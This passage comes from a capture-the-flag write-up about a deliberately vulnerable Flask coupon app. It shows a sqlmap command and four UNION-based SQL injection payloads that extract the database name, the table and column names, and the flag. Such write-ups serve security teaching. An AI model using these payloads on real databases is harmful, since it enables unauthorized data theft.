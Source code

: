 ```python
    coupons = get_coupons(request.form)
    if coupons == []:
      return render_template('list.html', error="Sorry, you didn't win")
    else:
      return render_template('list.html', coupons=coupons)
  else:
    if request.args.get('source') == '1':
      with open(__file__, 'r') as r:
        return r.read().strip()
    else:
      return render_template('base.html')

if __name__ == "__main__":
  app.run(host="0.0.0.0", port=7331)
```
The code section to query MySQL database is intentionally left exposed to SQL Injections.
```bash
sqlmap -r ./request.txt -p cid
```
The SQLmap tool reported that `UNION attack` with 3 columns is the way to go.
My first injection was for acquiring the database name: `test' UNION SELECT DATABASE(), DATABASE(), DATABASE() WHERE 'x' = 'x`  
The actual executed query becomes:  
```sql
SELECT * FROM coupons WHERE code = 'test' UNION SELECT DATABASE(), DATABASE(), DATABASE() WHERE 'x' = 'x'
```
Received the database name as `ff86e476b1344851f095759d1eeccda72d9363ad`. The second injection was to list all tables in this database: `test' UNION SELECT NULL, table_name, table_type FROM information_schema.tables WHERE 'x' = 'x`  
The correctly executed query becomes:  
```sql
SELECT * FROM coupons WHERE code = 'test' UNION SELECT NULL, table_name, table_type FROM information_schema.tables WHERE 'x' = 'x'
```
Revealed table names were `c2VjcmV0LWRi` and `coupons`. The third injection was to get column names of the `c2VjcmV0LWRi` table: `test' UNION SELECT NULL, column_name, column_name FROM information_schema.columns WHERE table_schema  = 'ff86e476b1344851f095759d1eeccda72d9363ad' AND table_name = 'c2VjcmV0LWRi`   
The correctly executed query becomes:  
```sql
SELECT * FROM coupons WHERE code = 'test' UNION SELECT NULL, column_name, column_name FROM information_schema.columns WHERE table_schema  = 'ff86e476b1344851f095759d1eeccda72d9363ad' AND table_name = 'c2VjcmV0LWRi'
```
Revealed only one column named `ZGVmaW5pdGVseS1ub3QtZmxhZw`. The fourth injection explored the data of the `c2VjcmV0LWRi` table: `test' UNION SELECT NULL, ZGVmaW5pdGVseS1ub3QtZmxhZw, ZGVmaW5pdGVseS1ub3QtZmxhZw FROM c2VjcmV0LWRi WHERE 'x' = 'x`  
The correctly executed query becomes:  
```sql
SELECT * FROM coupons WHERE code = 'test' UNION SELECT NULL, ZGVmaW5pdGVseS1ub3QtZmxhZw, ZGVmaW5pdGVseS1ub3QtZmxhZw FROM c2VjcmV0LWRi WHERE 'x' = 'x'
```
The flag `BtS-CTF{7h475_h0w_y0u_ch347_1n_94m35}` was only thing in table `c2VjcmV0LWRi`.

